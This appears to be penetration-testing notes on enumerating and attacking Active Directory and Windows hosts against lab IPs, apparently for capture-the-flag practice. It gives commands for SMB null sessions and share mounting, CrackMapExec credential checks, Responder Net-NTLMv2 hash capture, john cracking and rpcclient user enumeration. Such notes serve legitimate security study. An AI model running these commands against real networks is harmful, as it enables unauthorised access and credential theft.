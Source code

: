 # Active Directory & Windows Machines {-}

## Interesting Windows ports {-}

- 88 Kerberos
- 139 NetBIOS session service
- 445 Server Message Block **SMB**
- 389 LDAP
- 1433 ms-sql
- 5985-5986 WinRM

> [!] NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers)

## SMB connection with smbclient and smbmap {-}

**smbclient** is a tool that allows attacker to enumerate and list the shared resources of a machine that have the smb service on. 
You can start by using smbclient with a Null session by using the `-N` argument

```bash
smbclient -L 10.10.10.10 -N
```

As soon as you have listed those resources you can use **smbmap** to check the access, read or write rights that you have. You can also
specify the Null session by using the `-u 'null'` argument

```bash
smbmap -H 10.10.10.10 -u 'null'
smbmap -H 10.10.10.10 -u " " -p " "
```

As soon as you find a resource that you can access, you can use **smbclient** to connect to it. Again you can use the `-N` argument to tell
smbclient that you want to connect without asking for credentials.

```bash
smbclient //10.10.10.10/<Accessible resource>
```

> [!] NOTE: smbclient don't provide you a shell but a tool. **get filename.txt** allows you to download a resource if you are connected

If you see that you have access to the desired resource, you can mount the shared directory to your attacker machine.

```bash
mkdir /mnt/smbvictim
mount -t cifs "//10.10.10.10/<Accessible resource>" /mnt/smbvictim
```

You can also mount a directory with user credentials in order to get more information

```bash
mount -o user=<username> -t cifs //10.10.10.10/<folder> /mnt/smbvictim/
```

> [!] NOTE: A mounted partition is not a download of victim folders and file. That's only an access pass. Type `unmount /mnt/smbmounted` to close the
> mounted share.

One interesting point with smb is that there is some specified rights at the smb level that can varied. That means that it's not because the
shared resource is on READ ONLY mode that all the folders that this resource contains can not have a write right. You can check if some repository of 
this resource are writable with the **smbcacls** tool. The interesting right that we want to check is the Everyone.

```bash
smbcacls "10.10.10.10/<Accessible resource>" Users/amanda -N
```

The output will look as following:

```r
knitr::include_graphics("images/cacls-read.png")
```

It's interesting to mount the resource in the attacker machine because can do a one liner loop to check multiple folders rights filtering the information
by the Everyone key word.

```bash
cd /mnt/smbvictim/Users
ls -l | awk 'NF{print $NF}' | while read directory; do echo -e "\n[+] Directory $directory; smbcacls "10.10.10.10/<Accessible resource>" Users/$directory -N | grep -i everyone ; done
```

If you find a directory that have writable rights, something that can be intersting to check is that if you create a file in it, is somebody 
manipulating it (remove it, writing on it, removing his content etc.). If it's the case, attacker have a way of stolling the hash NTLMv2 with
malicious **scf** file

## Enumerate machines and check user validity by SAMBA with CME {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

**CME** can also enumerate a single machine,

```bash
cme smb 10.10.10.10
```

If we have credentials of a user, you can use **CME** to check the validity of a user. If the user with the password exists, the tool will 
write a red plus sign, if not, a minus sign. And if the user exists and this one have admin priviledges on machines, **CrackMapExec** will 
return a red plus sign and you will see a (Pwn3d!) in the result.

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1'
```

You can also check the validity of multiple users with some discovered passwords

```bash
cme smb 10.10.10.10 -u users.txt -p passwords.txt
```

## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of users.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```

## RPC connection with rpcclient {-}

**Remote Procedure Call** aka **RPC** is a network protocol that allows to make calls of precedures on an external computer with an 
application server. This protocol is used in a client-server model in order to ensure the communication between the client, the server and
between possible intermediaries.

In the enumeration phase, attacker can check if it's possible to connect with a null session using the **rpcclient** with the `-U ""` arguments

```bash
rpcclient -U "" 10.10.10.10 -N
```

The connection with a valid user will be done as following

```bash
rpcclient -U "user%password" 10.10.10.10 -c <command>
```

Interesting command to execute with rpcclient are:

```bash
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomusers'
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomgroups'
# get the rid of domain admins -> 0x200 in this example
rpcclient -U "user%password" 10.10.10.10 -c 'querygroupmem 0x200'
# get the rid of the users -> 0x1f4 for example
rpcclient -U "user%password" 10.10.10.10 -c 'queryuser 0x1f4'
```

## Enumerate ldap service with nmap {-}

```bash
locate .nse | grep "ldap"
```

```bash
nmap --script ldap\* 10.10.10.10 -oN ldapScan
```
